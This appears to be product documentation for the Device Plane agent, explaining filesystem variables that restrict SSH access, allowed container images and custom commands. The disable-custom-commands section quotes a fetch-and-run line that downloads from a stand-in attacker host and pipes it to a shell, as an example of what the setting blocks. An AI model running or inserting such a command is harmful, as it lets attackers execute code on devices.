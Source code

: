 
<Docs title="Device Variables">

# Device Variables

## Variables

Variables allow you to customize various aspects of Device Plane agent behavior. Variables are set through the filesystem meaning that interactions occur by placing files in a specific location (`/etc/deviceplane`). The agent detects these changes (without ever needing a restart) and changes behavior accordingly.

Below is a reference list of flags available in the API. All of these flags should be placed in the `/etc/deviceplane` directory as a standalone file. For example, the `authorized-ssh-keys` file would exist as a file at `/etc/deviceplane/authorized-ssh-keys`.

### authorized-ssh-keys

The `authorized-ssh-keys` variable sets the list of allowed keys for SSH access to a device. This file follows the standard `authorized_keys` format for SSH.

Adding this variable fundamentally changes how SSH authorization works. Normally authorization for SSH occurs in the Device Plane backend as all other API requests are. After adding this variable the agent will begin also authorizing using SSH keys.

SSH via CLI is currently the only supported method when using this variable. SSH via the UI is not yet supported when using this variable.

Here is a list of implications with this change.

- If a bad actor gets access to a Device Plane access key then they won't be able to SSH to any devices without also having an authorized SSH key
- If you lose access to your SSH keys you will have no way of accessing your device

### disable-ssh

The `disable-ssh` variable disables SSH access to the device. This should be an empty file; its presence or absence is all that's needed.

This variable is useful for restricting SSH access from the side of the device. For example, imagine a device with a touchscreen in use by a customer who would prefer to have SSH access to their device allowed only when they explicitly opt-in. The variable `disable-ssh` could be present on the device by default, and then the customer could opt-in to have their device accessed via some type of settings page in the running application. This settings page could create or remove `/etc/deviceplane/authorized-keys` to turn on or off SSH access.

### whitelisted-images

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `whitelisted-images` variable sets the list of images that can be used on a device. If this file is nonexistent or empty, any image will be allowed.

An image is allowed if its name is prefixed by a line in the file.

For example, the following `whitelisted-images` file will allow:

1. The `redis` image, with any tag, or no tag (which defaults to latest)
1. And any images from the `myorg` org (e.g. `myorg/deployimage`)

```
redis
myorg/
```

Here is a list of implications with this change.

- If a bad actor gets access to a Device Plane access key then they won't be able to launch images that aren't in your `whitelisted-images` file.
  - If all images that run on your device are under your org name on DockerHub (e.g. `myorg/`), then keeping this list up to date is easy!

### disable-custom-commands

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `disable-custom-commands` variable disables custom commands in the application config. Like `disable-ssh`, this should be an empty file; its presence or absence is all that's needed.

When this variable is set, the `command` and `entrypoint` keys are not allowed to be used. The agent will refuse to run services that use the keys and log an error.

Here is a list of implications with this change.

- If a bad actor gets access to a Device Plane access key then they won't be able to change the `entrypoint`/`command` of a container to execute arbitrary code. For example, `entrypoint: curl http://attackersurl.test | sh`, will be disallowed.

</Docs>
